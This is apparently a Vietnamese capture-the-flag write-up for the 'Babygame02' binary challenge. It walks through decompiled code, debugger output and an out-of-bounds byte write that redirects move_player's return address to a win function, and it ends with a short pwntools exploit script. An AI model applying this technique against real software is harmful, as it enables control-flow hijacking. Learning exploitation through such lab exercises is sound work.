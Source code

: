 # Babygame02
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [esp+0h] [ebp-AA0h] BYREF
  char v5[2700]; // [esp+Bh] [ebp-A95h] BYREF
  char v6; // [esp+A97h] [ebp-9h]
  int *v7; // [esp+A98h] [ebp-8h]

  v7 = &argc;
  init_player(v4);
  init_map(v5, v4);
  print_map(v5);
  signal(2, (__sighandler_t)sigint_handler);
  do
  {
    do
    {
      v6 = getchar();
      move_player(v4, v6, (int)v5);
      print_map(v5);
    }
    while ( v4[0] != 29 );
  }
  while ( v4[1] != 89 );
  puts("You win!");
  return 0;
}
```
chall này game giống hệt chall `babygame01` tuy nhiên có một số điểm khác. Ta không có câu lệnh gọi tới win. Ý tưởng ban đầu là `ret2win`. Vì thế ta cần 1 bug có thể `overwrite` được địa chỉ nào đó về `win`. 

    *(_BYTE *)(v4[1] + v5 + 90 * *v4) = 46

Tớ nghĩ tới câu lệnh giúp ta exploit chall `babygame01` tuy là có thể `overwrite` thành win nhưng mà nó set 1 byte sau cùng của giá trị đấy thành `46`. Điều này k có ý nghĩa lắm. Mình để ý thấy địa chỉ ret của `move_player` với win chỉ khác nhau mỗi byte cuối =)) hê hê. 

```c
result = (_BYTE *)(v4[1] + v5 + 90 * *v4);
*result = player_tile;
```
Lệnh này giống lệnh trên tuy nhiên nó k set byte sau cùng (sau cùng theo little endian) thành 46, nó set thành `player_tile`, mà `player_tile` ta có thể thay đổi theo ý muốn bằng phím `'l'`

```c
if ( v6 == 'l' )
    player_tile = getchar();
```
Đặt break point ngay lệnh ret của `move_player` lúc này `retAddr` đang được lưu trong stack :

```java
---[0xffffc71c]---│+0x0000: 0x08049709  →  <main+149> add esp, 0x10      ← $esp
0xffffc720│+0x0004: 0xffffc738  →  0x00000004
0xffffc724│+0x0008: 0xffffffc6
0xffffc728│+0x000c: |---[0xffffc743]---|  →  "..................................................[...]"
0xffffc72c│+0x0010: 0x080496eb  →  <main+119> mov BYTE PTR [ebp-0x9], al
0xffffc730│+0x0014: 0xf7ffd020  →  0xf7ffd9d0  →  0x00000000
0xffffc734│+0x0018: 0x00000000
0xffffc738│+0x001c: 0x00000004
0xffffc73c│+0x0020: 0x00000004
0xffffc740│+0x0024: 0x2e000000
gef➤  p win
$1 = {<text variable, no debug info>} 0x804975d <win>
```
Ta có: địa chỉ chứa `retAddr` của `move_player` là `0xffffc71c`, địa chỉ của map `v5` là `0xffffc743` và địa chỉ của `win` là `0x804975d`

Vẫn là phép tính cũ : `(v4[1] + v5 + 90 *v4[0]) = 0xffffc71c` với `v5 = 0xffffc743` và `v4[1]` là chỉ số cột, `v4[0]` là chỉ số hàng `(v4[1]<89, v4[0]<29)`. Nếu cố định `v4[1]` rồi tìm `v4[0]` thì sẽ khá tốn công bởi vì phải chia cho `90` vì vậy ta nên cố định `v4[0]` rồi tìm `v4[1]`. 

Với `v4[0] = 0` thì `v4[1] = 0xffffc71c - 0xffffc743 = -39` (hàng 0 cột -39). Lúc chạy thử và debug thì vô tình ta đã set địa chỉ trong `eax` thành địa chỉ không hợp lệ dẫn đến crash và `eax` thì chứa toàn bộ map của ta

    $eax   : 0xffffc73f  →  "@.................................................[...]"
    ...
    $eax   : 0x40ffc73f

Do đó ta đành tìm cặp khác: với `v4[0] = 1 thì v4[1] = -129` điều này còn tệ hơn trường hợp trước. Ta cần `v4[1]` phải dương nếu không sẽ gặp lỗi tương tự.

Với `v4[0] = -1`, `v4[1] = 51` (hàng -1 cột 51) hoàn toàn hợp lệ. Test thì k gặp lỗi `SIGSEGV` nữa. Bây giờ địa chỉ của phép tính trên đã là nơi chứa `retAddr` của `move_player` rồi, giờ chỉ còn set byte cuối của `ret` thành `win` là hoàn thành

## Exploit
do phải gửi theo byte nên viết script vậy =))

```python
from pwn import *
exe = ELF('game', checksec=False)
p = process(exe.path)
p.sendlineafter(b'\n', b'l\x5d')
p.sendlineafter(b'\n', b'd'*47)
p.sendlineafter(b'\n', b'w'*5)
p.interactive()
```
Do lúc đầu move player tới vị trí cần thiết thì chương trình lại k set player_tiles nên tớ set trước =))
Chạy trên Local ok rồi

```java
..........................................................................................
.........................................................................................X
flag.txt not found in current directory
[*] Got EOF while reading in interactive
```
*mạng lag quá nó không in ra hết được :( cập nhật sau*
